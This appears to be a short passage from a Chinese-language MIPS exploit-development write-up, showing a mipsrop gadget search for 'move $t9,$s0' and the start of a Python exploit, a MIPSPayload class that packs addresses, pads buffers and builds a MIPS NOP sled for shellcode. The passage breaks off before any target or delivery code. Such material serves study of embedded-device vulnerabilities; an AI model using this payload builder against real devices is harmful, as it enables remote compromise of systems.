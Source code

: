 ![image-20201113134123337](https://yaseng-1251294608.cos.ap-guangzhou.myqcloud.com/image/image-20201113134123337.png)

mipsrop.find("move $t9,$s0") 跳转到 s0 去执行

![image-20201113134128377](https://yaseng-1251294608.cos.ap-guangzhou.myqcloud.com/image/image-20201113134128377.png)

**exploit**

```python
#!/usr/bin/env python
 
import sys
import string
import socket
import struct
import urllib, urllib2, httplib
 
class MIPSPayload:
 
    BADBYTES = [0x00]
    LITTLE = "little"
    BIG = "big"
    FILLER = "A"
    BYTES = 4
    NOP = "\x27\xE0\xFF\xFF"
 
    def __init__(self, libase=0, endianess=LITTLE, badbytes=BADBYTES):
        self.libase = libase
        self.shellcode = ""
        self.endianess = endianess
        self.badbytes = badbytes
 
    def Add(self, data):
        self.shellcode += data
 
    def Address(self, offset, base=None):
        if base is None:
            base = self.libase
 
        return self.ToString(base + offset)
 
    def AddAddress(self, offset, base=None):
        self.Add(self.Address(offset, base))
 
    def AddBuffer(self, size, byte=FILLER):
        self.Add(byte * size)
 
    def AddNops(self, size):
        if self.endianess == self.LITTLE:
            self.Add(self.NOP[::-1] * size)
        else:
            self.Add(self.NOP * size)
 
    def ToString(self, value, size=BYTES):
        data = ""
 
        for i in range(0, size):
            data += chr((value >> (8*i)) & 0xFF)
 
        if self.endianess != self.LITTLE:
            data = data[::-1]
 
        return data
 
```